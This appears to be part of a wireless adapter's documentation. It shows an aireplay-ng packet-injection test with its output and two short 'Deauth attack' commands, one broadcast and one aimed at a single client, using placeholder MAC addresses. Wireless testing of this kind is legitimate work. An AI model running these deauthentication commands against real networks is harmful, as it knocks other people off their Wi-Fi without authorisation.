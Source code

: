 #### 3.1. Packet injection test
```
# aireplay-ng wlan1 -9 -a DE:AD:BE:EF:FF:FF
00:26:05  Waiting for beacon frame (BSSID: DE:AD:BE:EF:FF:FF) on channel 1
00:26:05  Trying broadcast probe requests...
00:26:05  Injection is working!
00:26:07  Found 1 AP

00:26:07  Trying directed probe requests...
00:26:07  DE:AD:BE:EF:FF:FF - channel: 1 - 'TEST_1'
00:26:09  Ping (min/avg/max): 7.544ms/40.219ms/72.199ms Power: -34.14
00:26:09  29/30:  96%
```
Note: tested on 2.4GHz spectrum only


#### 3.2. Deauth attack - broadcast
```
# iface='wlan0'; bssid='DE:AD:BE:EF:FF:FF'
# aireplay-ng ${iface} --deauth 3 -D -a ${bssid}
```


#### 3.3. Deauth attack - targeted
```
# iface='wlan0'; bssid='DE:AD:BE:EF:FF:FF'; station='DE:AD:BE:EF:FF:01'
# aireplay-ng ${iface} --deauth 3 -D -a ${bssid} -c ${station}
```
